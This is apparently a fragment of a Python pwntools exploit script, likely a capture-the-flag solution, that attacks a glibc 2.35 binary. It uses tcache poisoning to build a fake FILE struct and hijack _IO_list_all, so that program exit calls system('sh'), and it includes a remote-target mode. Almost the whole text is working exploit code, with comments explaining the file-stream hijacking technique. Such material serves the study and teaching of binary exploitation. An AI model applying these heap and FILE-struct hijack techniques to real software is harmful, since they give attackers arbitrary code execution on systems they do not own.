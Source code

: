 ```python
    wide_data_vtable_off = 0xe0
    _IO_wfile_overflow_ptr = libc_base+0x2160d8
    __overflow_off = 0x18
    do_alloc_off = 0x68
    _IO_list_all = libc_base+0x21a680
    system = libc_base+0x50d60

    # we can't hijack data in standard FILE struct directly because we have only *one* 0x80 bytes arbitrary write
    # so we have to fake a FILE struct on heap and hijack the _IO_list_all pointer to it

    # heap_base + 0x2d0 is the chunk_0x80(content), heap_base + 0x2c0 is the chunk_0x40(content)
    add(1, b"a"*0x10 + p64(0) + p64(0x71) + p64((heap_base + 0x2d0 + 0x70) ^ (heap_base >> 12)))
    free()
    add(2, flat({
        0x10: b"  sh;", # fake FILE struct starts at heap_base + 0x2e0
        0x38: system,
        0x68: 0x71,
        0x70: _IO_list_all ^ (heap_base >> 12),
    }, filler=b'\0'))
    free()
    add(2, flat({ # starts from heap_base + 0x2e0 + 0x60
        wide_data_off-0x60: heap_base + 0x2e0 + 0xd0 - wide_data_vtable_off,
        0xd0-0x60:          heap_base + 0x2e0 + 0x28 - do_alloc_off,
        vtable_off-0x60:    _IO_wfile_overflow_ptr - __overflow_off,
    }, filler=b"\x00"))
    free()
    add(2, pack(heap_base+0x2e0))   # hijack _IO_list_all

    sla(b'> ', b'4') # trigger exit -> ... -> _IO_flush_all_lockp ->_IO_overflow

    io.interactive()


# ------------------ Infrastructure ------------------ #

def debug():
    g = gdb.attach(io, """
        source ~/gaio/load_sym.py
        loadsym ~/gaio/libs/2.35-0ubuntu3_amd64/.debug/.build-id/89/c3cb85f9e55046776471fed05ec441581d1969.debug
    """)
    # pause()

if __name__ == "__main__":
    if len(sys.argv) == 1:
        io = process(filename)
    elif sys.argv[1] == "d":
        io = process(filename)
        debug()
    elif sys.argv[1] == "r":
        io = remote(ip, port)
    else:
        print("Usage: ./exp.py [d | r]")
        print("\td for debug")
        print("\tr for remote")
        exit()

    pwn()
```
